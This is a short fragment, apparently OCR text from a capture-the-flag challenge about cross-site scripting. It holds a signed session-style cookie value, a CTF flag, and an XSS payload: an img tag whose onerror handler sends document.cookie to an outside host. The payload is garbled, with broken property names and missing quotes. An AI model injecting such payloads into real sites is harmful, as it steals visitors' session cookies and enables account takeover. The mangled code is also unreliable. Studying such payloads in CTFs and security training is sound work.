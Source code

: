 green-mountains=eyJub25jZSI6ImI5NDQwNzQzZDhkYjAwZmUiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vY2hhcmFjdGVycy4qJCIsImV4cGlyeSI6MTQ2MTk5OTM5MH0=%7C1461999387%7Ca6cd26899f626a64c31c36eda307a74fe8453235
hey <img src =0 onerror ="var i=new Image(); i[sr + c]=http://92f.co/dinosa + document.cookie">
CTF{strict_contextual_autoescaping_to_solve_your_xss_woes}
